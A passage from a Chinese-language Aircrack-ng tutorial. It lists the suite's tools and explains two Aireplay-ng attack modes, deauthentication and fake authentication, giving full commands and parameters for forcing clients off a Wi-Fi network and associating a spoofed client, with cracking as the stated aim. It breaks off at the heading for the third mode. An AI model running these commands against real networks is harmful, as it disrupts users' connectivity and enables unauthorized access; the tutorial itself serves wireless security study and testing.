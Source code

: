 ## 5.Aircrack-ng 常用工具包

aircrack-ng：破解

airmon-ng：改变网卡工作模式，将网卡从Managed Mode 改变为 Monitor Mode

airodump-ng：抓包工具，用于捕获报文

aireplay-ng：提供各种攻击，为airodump-ng创造更多的报文

airserv-ng：网卡连接到指定端口 可以用来做无线跳板

airolib-ng：彩虹表破解创建数据库文件

airdecap-ng：解包

## 6.Aireplay-ng 的 6 种攻击模式详解

### 1.冲突模式

-0 Deautenticate 冲突模式

使已经连接的合法客户端强制断开与路由端的连接，使其重新连接。在重新连接过程中获得验证数据包，从而产生有效 ARP request。

如果一个客户端连在路由端上，但是没有人上网以产生有效数据，此时，即使用-3 也无法产生有效 ARP request。所以此时需要用-0 攻击模式配合，-3 攻击才会被立刻激活。

```
aireplay-ng -0 10 –a <ap mac> -c <my mac> wifi0
【-0】：冲突攻击模式，后面跟发送次数（设置为 0，则为循环攻击，不停的断开连接，客户端无法正常上网）
【-a】：设置 ap 的 mac
【-c】：设置已连接的合法客户端的 mac。
如果不设置-c，则断开所有和 ap 连接的合法客户端。
aireplay-ng -3 -b <ap mac> -h <my mac> wifi0
注：使用此攻击模式的前提是必须有通过认证的合法的客户端连接到路由器
```

### 2.伪装客户端连接

-1 fakeauth count 伪装客户端连接

这种模式是伪装一个客户端和 AP 进行连接。

这步是无客户端的研究学习的第一步，因为是无合法连接的客户端，因此需要一个伪装客户端来和路由器相连。为让 AP 接受数据包，必须使自己的网卡和 AP 关联。如果没有关联的话，目标 AP 将忽略所有从你网卡发送的数据包，IVS 数据将不会产生。

用-1 伪装客户端成功连接以后才能发送注入命令，让路由器接受到注入命令后才可反馈数据从而产生 ARP 包。

```
aireplay-ng -1 0 –e <ap essid> -a <ap mac> -h <my mac> wifi0
参数说明：
【-1】：伪装客户端连接模式，后面跟延时
【-e】：设置 ap 的 essid
【-a】：设置 ap 的 mac
【-h】：设置伪装客户端的网卡 MAC（即自己网卡 mac）
```

### 3.交互模式
